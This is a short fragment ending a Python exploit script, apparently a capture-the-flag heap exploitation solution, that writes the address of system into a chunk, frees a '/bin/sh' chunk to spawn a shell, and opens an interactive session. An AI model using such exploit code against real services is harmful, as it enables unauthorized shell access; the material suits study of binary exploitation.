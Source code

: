 ```
        edit(1,p64(system)+"\n")
        
        alloc(8,"/bin/sh\x00"+'\n')
        free(8)

        target.interactive()


    pwn()
```
